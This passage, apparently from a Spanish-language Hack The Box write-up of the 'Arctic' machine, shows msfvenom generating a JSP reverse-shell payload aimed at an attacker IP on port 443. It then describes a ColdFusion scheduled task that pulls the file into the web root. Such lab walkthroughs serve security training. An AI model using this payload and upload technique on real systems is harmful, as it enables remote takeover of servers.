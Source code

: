 Asi que vamos a intentar crear un archivo `JSP` malicioso, para ello usaremos `msfvenom`

```bash
❯ msfvenom -l payloads | grep jsp
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
```

Vemos que tenemos un `payload` para otorgarnos una `shell`, asi que usaremos este payload `java/jsp_shell_reverse_tcp` y especificamos nuestra `ip` de atacante y el puerto en el cual estaremos en escucha que sera el `443`.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=443 -o reverse.jsp
Payload size: 1495 bytes
Saved as: reverse.jsp
❯ ls
 reverse.jsp
```
 Una vez tengamos listo el archivo malicioso, vamos a crear la tarea programada.

Espeficamos el nombre que queramos de la tarea `pwnarctic`, en `url` le indicamos que se conecte a nuestro equipo con el archivo `reverse.jsp` que estaremos alojando y lo guardaremos en la ruta expuesta en la que tenemos acceso de ver los recursos `C:\ColdFusion8\wwwroot\CFIDE\reverse.jsp` 

![](/assets/images/HTB/htb-writeup-Arctic/arc10.PNG)

